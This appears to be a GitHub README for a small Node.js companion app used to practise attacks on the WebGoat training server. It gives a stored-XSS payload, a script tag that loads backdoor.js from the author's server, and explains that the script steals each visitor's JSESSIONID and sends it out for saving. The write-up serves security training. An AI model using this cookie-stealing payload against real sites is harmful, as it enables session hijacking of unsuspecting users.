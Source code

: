 # webGoatHack
A small node.js app for exercising with WebGoat 7.0

# WebGoat
WebGoat is a special web server application for training various security attacks. To read more what is it and how to install it proceed to the [link](https://github.com/WebGoat/WebGoat/)

# Hack App install and run
Please, clone the repo to you computer and then install node dependencies by executing
```
npm install
```
To ran hack application type 
```
npm start
```
The application will starts at `http://localhost:3000/`

# Attack
I perform storedXSS attack by putting into the title of the comment this content
```
Cool site <script src='http://localhost:3000/backdoor.js'></script>
```
I came to this two level approach only because I want to perform attack once per user session. 
Thats why one script gets `JSESSIONID` and sends it as GET parameter. Then I can parse and save them in Express app.
And once this `JSESSIONID` have been stored, I don't perform attack any more. 



